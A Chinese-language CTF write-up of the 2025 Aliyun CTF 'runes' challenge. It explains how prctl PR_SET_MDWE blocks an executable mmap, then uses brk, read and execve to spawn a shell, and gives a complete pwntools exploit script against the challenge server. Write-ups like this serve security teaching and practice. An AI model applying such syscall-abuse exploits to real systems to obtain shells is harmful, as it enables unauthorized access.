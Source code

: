 ```yaml
---
title: 第三届阿里云CTF - runes
date: 2025/02/24 23:11:00
updated: 2025/02/24 23:51:00
tags:
    - syscall
thumbnail: /assets/aliyunctf2025/banner.png
excerpt: 通过利用`prctl`的`PR_SET_MDWE`系统调用，禁止`mmap`分配可执行内存来击败恶龙，并通过`brk`和`execve`获取shell。
---
```


> Show me your runes.
>> hint:
>> * No intended vulnerability in the bzImage/kernel, please exploit the
>>   userspace chal binary.
>> * As the challenge's name implies, you need to focus on the `syscall`
>>   aka rune in this challenge. Find a way to **weaken the dark dragon's
>>   power** once your character becomes strong enough.
>> * All syscall numbers（系统调用号） used in the intended solution are
>>   under 200 and relatively well used.

{% note green fa-heart %}
本题由 *hkbin* 和 *haraniN* 和我一起合作解决！
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

{% note blue fa-circle-info %}
题目是运行在虚拟机中的，内存256M，内核版本6.6。
{% endnote %}

`chal`实现了一个小游戏，基础等级是`1`，可以执行任意syscall，并且可以控制前三个参数，
但是这3个参数必须小于`等级*100`。小游戏中可以升级，但是不可能超过7，
而指针对应的无符号数非常大，看到如果打败dark dragon可以升级到`0x7ffffffffff`，
然后就可以输入指针了。为了打败dark dragon，需要把它的血量打到1，
也就是需要让预期的`mmap`调用失败，如果成功，人物血量会直接归零。

{% folding blue::mmap了什么 %}
程序向`memfd`中写入了一串shellcode，并通过`mmap`包含fd来将其映射到`rwx`内存中，
随后执行，反汇编后结果是：

```x86asm
mov    rax,rdi
sub    QWORD PTR [rax],0x1337c0d3
ret
```

而输入的地址rdi是`&hp`，hp会直接降到0以下，并被随后的代码归零。
{% endfolding %}

寻找符合条件的syscall，先筛掉所有包含指针的syscall，由于程序打开的 `memfd`
被dup到了`1023`，而等级不可能在正常情况下大于10，因此也无法关闭 `memfd` 。
如果使内存不足以分配0x1000大小的内存的话，也可以阻止mmap，但是256M实在难以企及，
就算`fork`，增加的内存也是沧海一粟。最后选择了`prctl`，在Linux 6.3加入了`PR_SET_MDWE`，
开启这个[security bit](https://man7.org/linux/man-pages/man2/pr_set_mdwe.2const.html)
后可以禁止mmap一段`?wx`的内存，并且不会影响到execve后的新程序。
在因此设置后就能成功升级，实现任意syscall调用。

{% note blue fa-boxes-packing %}
由于Arch Linux滚动更新的特性，我的内核保持最新，可以直接把`chal`拖出来在本地调试；
而一些使用Ubuntu的小伙伴，由于内核老，是没有这个特性的，在本地只能盲调。
{% endnote %}

剩下的问题是保护全开，没有泄露任何指针。可以通过`brk`调用申请堆内存，
在上面写数据。由于sh链接到了busybox，因此还需要设置argv。最后
`execve(“/bin/sh", {“sh", NULL}, NULL)` 拿shell。

{% note green fa-lightbulb %}
[官方wp](https://xz.aliyun.com/news/17029)中使用了`shmget + shmat`来申请一片内存。
{% endnote %}

## EXPLOIT

```python
from pwn import *
from pwnlib.constants.linux.amd64 import __NR_prctl, __NR_alarm, __NR_brk, __NR_read, __NR_execve
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './chal'
SYS = constants

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('121.41.238.106', 42898)

    def init_name(name: str):
        info('Waiting for vm to boot')
        sh.sendlineafter(b'tell me your name', name.encode())
        info(f'Script by {name}')

    def attack_dragon(rax: int, rdi: int=0, rsi: int=0, rdx: int=0, tosend: bytes=None) -> int:
        sh.sendlineafter(b'Your Journey Continues', b'2')
        sh.sendlineafter(b'Invoke the Forbidden Runes', b'3')
        sh.sendlineafter(b'60 3 3 3', f"{int(rax)} {int(rdi)} {int(rsi)} {int(rdx)}".encode())
        if tosend:
            sleep(0.125)
            sh.send(tosend)
        if rax == __NR_execve:
            return
        sh.recvuntil(b'force answers:')
        sysret = int(sh.recvline())
        sh.sendlineafter(b'Impossible', b'1')
        return sysret

    init_name('hkbin & Rocket & haraniN')
    attack_dragon(__NR_prctl, 65, 1) # PR_SET_MDWE; PR_MDWE_REFUSE_EXEC_GAIN
    attack_dragon(__NR_alarm, 0)     # reset alarm timer
    brk = attack_dragon(__NR_brk, 0) # initial brk
    success(GOLD_TEXT(f"Get brk: {brk:#x}, try to extend 0x1000"))
    brk_top = attack_dragon(__NR_brk, brk + 0x1000)
    assert brk_top == brk + 0x1000, "failed to extend brk"
    sent = attack_dragon(__NR_read, 0, brk, 16, b'/bin/sh\0' + p64(brk + 5) + b'\n') # "/bin/sh" "sh" NULL
    assert sent == 16, "failed to send /bin/sh"
    info('Now try to open the shell')
    attack_dragon(__NR_execve, brk, brk + 8, 0) # execve("/bin/sh", {"sh", NULL}, NULL)

    sh.clean()
    sh.interactive()
    sh.close()
```

{% note default fa-flag %}
![flag](/assets/aliyunctf2025/runes.png)
{% endnote %}

## 参考

1. [PR_SET_MDWE(2const) — Linux manual page](https://man7.org/linux/man-pages/man2/pr_set_mdwe.2const.html)
2. [第三届阿里云CTF官方Writeup](https://xz.aliyun.com/news/17029)
